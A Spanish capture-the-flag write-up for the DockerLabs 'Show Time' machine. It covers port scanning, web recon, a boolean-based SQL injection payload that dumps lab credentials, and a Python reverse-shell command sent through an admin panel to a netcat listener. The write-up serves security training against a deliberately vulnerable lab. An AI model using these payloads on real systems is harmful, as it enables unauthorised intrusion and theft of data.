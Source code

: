 # SHOW TIME - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Show Time. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./showtime.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: maciiii___

## RECONOCIMIENTO DE RED

### conectividad y SO

Comprobamos nuestra conectividad con la máquina: `ping -c 1 172.17.0.2`
> `-c 1` Solo enviar 1 paquete ICMP

![image](https://github.com/user-attachments/assets/75d6b7e0-7f86-440e-877b-7a8a41733a10)

Vemos que nos llega la respuesta de vuelta de la máquina, con TTL de 64 por lo que su SO es Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos con nmap: `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports`.
> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

Hacemos un escaneo de servicios y versiones con nmap sobre los puertos abiertos: `nmap -p22,80 -sCV 172.17.0.2 -oN tcp_ports_targeted`.
> `-p22,80` hacer el escaneo sobre el puerto 22 y el 80.

> `-sCV` escanear el servicio y la versión (`sV`) y lanzar los scripts de reconocimiento por defecto (`sC`)

> `-oN tcp_ports_targeted` exportar el output en formato nmap al archivo `tcp_ports_targeted`

## RECONOCIMIENTO WEB

Antes de ir a ver la web desde el navegador, lanzamos desde consola el comando `whatweb http://172.17.0.2`. Vemos que la web es un Apache 2.4.58 y que la distro de la máquina es Ubuntu.

Ahora vemos la raíz de la web desde el navegador, y vemos este contenido:

![image](https://github.com/user-attachments/assets/7dd79aeb-48eb-42b6-8cc4-3669027a8b84)

Vemos un botón de login arriba a la derecha, que nos lleva a /login_page/index.php:

![image](https://github.com/user-attachments/assets/73518c8d-ba63-4244-b660-c09ad6568c84)

## EXPLOTACIÓN WEB

Vemos este panel. Si probamos a meter una comilla, sale un error de MySQL, por lo que es vulnerable a inyección SQL. Podemos comprobar que no es vulnerable a una inyección de tipo union based ya que no muestra los datos de las columnas, pero si que es vulnerable a una inyección boolean based. Podemos ir enviando consultas de verdadero o falso para conseguir bases de datos, tablas, columnas y registros. Por ejemplo, para sacara el primer caracter de la primera base de datos, podríamos hacer una consulta como esta: `admin' or (select substring(schema_name,1,1) from information_schema.schemata limit 0,1)='payload'-- -`, y capturar con burpsuite la petición para enviarla al intruder y poner un payload con muchos caracteres, y fijarnos en la respuesta del servidor para ver cual tiene un contenido diferente al resto, y entonces ese esrá el primer caracter. Siguiendo este concepto podemos programar un script en python que automatice todo el proceso del dump del motor MySQL: https://github.com/4bytess/dockerlabs-scripts/tree/main/showtime/SQLi.

Usando el script, conseguimos este dump:

![image](https://github.com/user-attachments/assets/781aef6d-129a-426b-8ea1-13c7ea7679fb)

Tenemos 3 credenciales:

- lucas:123321123321
- santiago:123456123456
- joe:MICLAVEESINHACKEABLE

Podemos probar todas en el panel de login de la página web. Las credenciales de lucas y santiago simplemente nos loguearan y nos dirán que estamos bienvenidos, pero la de joe nos lleva a la ruta /login_page/admin-panel.php, en la que hay un panel en el que podemos ejecutar comandos de python:

![image](https://github.com/user-attachments/assets/2a6ab221-3ef9-492f-a929-7b5f24ce744d)

Podemos escribir el comando `import os; os.system('/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"')` y ponernos en escucha por el puerto 443 con netcat: `netcat -nlvp 443`, y ganamos una consola como el usuario www-data:

![image](https://github.com/user-attachments/assets/d25bdcba-b747-4d9c-8b7c-233328a81c92)

